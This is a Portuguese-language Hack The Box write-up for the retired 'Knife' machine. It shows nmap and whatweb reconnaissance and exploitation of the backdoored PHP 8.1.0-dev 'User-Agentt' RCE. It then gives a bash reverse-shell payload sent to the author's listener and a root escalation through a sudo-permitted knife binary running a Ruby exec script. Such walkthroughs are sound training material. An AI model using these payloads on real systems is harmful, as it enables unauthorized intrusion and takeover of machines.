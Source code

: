 ```yaml
---
title: HTB Knife Writeup
author: Hastur
date: 2021-09-03 21:00:00 -0300
categories: [Writeups, Hack The Box - Retired]
tags: [HTB]
featured_img: /htb/htb-knife-1.png
---
```


<img src="/htb/htb-knife-logo.png">

<br>


| Nome | Knife       |
|------|-------------|
|IP    | 10.10.10.242|
|Pontos| 20          |
|OS    | Linux       |
|Nível | Easy        |

<br>

## RECON

### Nmap
```
┌──(hastur㉿hastur)-[~]
└─$ sudo nmap -v -sCV -p- -Pn -O 10.10.10.242 --min-rate=512 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea

```
Encontramos somente as portas 22 e 80 abertas. Vamos começar pela porta 80.

### Porta 80

<img src="/htb/htb-knife-1.png">

Apenas uma página simples sem links para seguir.

A varredura com gobuster também não trouxe nada relevante.

Vamos tentar o whatweb para obter mais informações.

```
┌──(hastur㉿hastur)-[~]
└─$ whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Conseguimos identificar que o server roda em PHP na versão "PHP/8.1.0-dev", vamos procurar algum exploit.

```
┌──(hastur㉿hastur)-[~]
└─$ searchsploit "PHP 8.1.0-dev" 
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                       | php/webapps/49933.py
```

Vamos copiar o exploit para nosso diretório e nomeá-lo como "exploit.py".

```
┌──(hastur㉿hastur)-[~/knife]
└─$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ ls -la
total 84
drwxr-xr-x  20 root root  4096 May 18 13:25 .
drwxr-xr-x  20 root root  4096 May 18 13:25 ..
lrwxrwxrwx   1 root root     7 Feb  1  2021 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Jul 23 13:37 boot
drwxr-xr-x   2 root root  4096 May  6 14:10 cdrom
drwxr-xr-x  19 root root  4020 Sep  3 04:33 dev
drwxr-xr-x  99 root root  4096 May 18 13:25 etc
drwxr-xr-x   3 root root  4096 May  6 14:44 home
lrwxrwxrwx   1 root root     7 Feb  1  2021 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Feb  1  2021 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Feb  1  2021 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Feb  1  2021 libx32 -> usr/libx32
drwx------   2 root root 16384 May  6 14:08 lost+found
drwxr-xr-x   2 root root  4096 May 18 13:20 media
drwxr-xr-x   2 root root  4096 May 18 13:20 mnt
drwxr-xr-x   5 root root  4096 May 18 13:20 opt
dr-xr-xr-x 358 root root     0 Sep  3 04:32 proc
drwx------   7 root root  4096 May 18 13:26 root
drwxr-xr-x  27 root root   820 Sep  3 16:47 run
lrwxrwxrwx   1 root root     8 Feb  1  2021 sbin -> usr/sbin
drwxr-xr-x   6 root root  4096 May 18 13:20 snap
drwxr-xr-x   2 root root  4096 Feb  1  2021 srv
dr-xr-xr-x  13 root root     0 Sep  3 04:32 sys
drwxrwxrwt  16 root root 12288 Sep  4 00:00 tmp
drwxr-xr-x  15 root root  4096 May 18 13:20 usr
drwxr-xr-x  14 root root  4096 May  9 04:22 var

$ 

```

Ao executarmos o exploit, temos uma versão bem resumida de RCE em forma de bash, esta versão do PHP possui uma falha de segurança no user-agent que permite execussão de código remoto.

Para podermos explorar de forma efetiva, precisamos de um tty shell, vamos iniciar um netcat ouvindo a conexão reversa.

```
┌──(hastur㉿hastur)-[~/knife]
└─$ nc -vlnp 8443
listening on [any] 8443 ...
```

Agora vamos enviar um payload no terminal do RCE.

```
┌──(hastur㉿hastur)-[~/knife]
└─$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.130/8443 0>&1"
```

Checando no netcat, conseguimos um shell.

<img src="/htb/htb-knife-2.png">

E dentro do diretório do usuário "james", conseguimos flag do usuário.

<img src="/htb/htb-knife-3.png">
<br>
## ESCALAÇÃO DE PRIVILÉGIOS

Já dentro do server, vamos fazer a enumeração local, com o comando `sudo -l`, encontramos algo interessante:

<img src="/htb/htb-knife-4.png">

O usuário tem permissão de executar `/usr/bin/knife` com privilégios de administrador sem uso de senha, vamos enumerar este binário.

<img src="/htb/htb-knife-5.png">

Quando enumeramos o diretório real do binário, podemos ver que se trata de um diretório de instalação do ruby.

<img src="/htb/htb-knife-6.png">

Ao tentar executar o programa, ele nos retora uma grande lista de opções de argumento, entre elas uma bem interessante:

<img src="/htb/htb-knife-7.png">

Isso significa que podemos executar scripts em ruby, vamos voltar para o diretorio do usuário james e criar um script.

```
james@knife:~$ pwd                                   
pwd
/home/james
james@knife:~$ echo 'exec "/bin/bash -i"' > hastur.rb
```
Ao executar `sudo /usr/bub/knife exec hastur.rb` temos nosso shell com root e podemos enumerar a flag.

<img src="/htb/htb-knife-8.png">

E comprometemos o server!!
<br>

<img src="/htb/hackerman.gif">
<br>
### Referências

| Vulnerabilidade                           | Url                                                                                                             |
|-------------------------------------------|-----------------------------------------------------------------------------------------------------------------|
| PHP 8.1.0-dev development version backdoor| [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)|


